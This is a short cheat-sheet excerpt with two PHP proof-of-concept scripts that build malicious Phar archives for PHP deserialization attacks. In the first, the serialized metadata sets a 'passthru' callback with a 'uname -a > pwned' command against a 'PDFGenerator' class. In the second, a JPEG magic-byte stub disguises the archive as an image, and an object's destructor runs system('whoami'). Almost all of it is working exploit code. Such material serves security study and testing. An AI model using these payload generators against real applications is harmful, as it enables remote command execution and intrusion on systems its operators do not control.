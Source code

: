 
* Example of a Phar creation in order to exploit a custom `PDFGenerator`.
    ```php
    <?php
    class PDFGenerator { }

    //Create a new instance of the Dummy class and modify its property
    $dummy = new PDFGenerator();
    $dummy->callback = "passthru";
    $dummy->fileName = "uname -a > pwned"; //our payload

    // Delete any existing PHAR archive with that name
    @unlink("poc.phar");

    // Create a new archive
    $poc = new Phar("poc.phar");

    // Add all write operations to a buffer, without modifying the archive on disk
    $poc->startBuffering();

    // Set the stub
    $poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");

    /* Add a new file in the archive with "text" as its content*/
    $poc["file"] = "text";
    // Add the dummy object to the metadata. This will be serialized
    $poc->setMetadata($dummy);
    // Stop buffering and write changes to disk
    $poc->stopBuffering();
    ?>
    ```

* Example of a Phar creation with a `JPEG` magic byte header since there is no restriction on the content of stub.
    ```php
    <?php
    class AnyClass {
        public $data = null;
        public function __construct($data) {
            $this->data = $data;
        }
        
        function __destruct() {
            system($this->data);
        }
    }

    // create new Phar
    $phar = new Phar('test.phar');
    $phar->startBuffering();
    $phar->addFromString('test.txt', 'text');
    $phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

    // add object of any class as meta data
    $object = new AnyClass('whoami');
    $phar->setMetadata($object);
    $phar->stopBuffering();
    ```
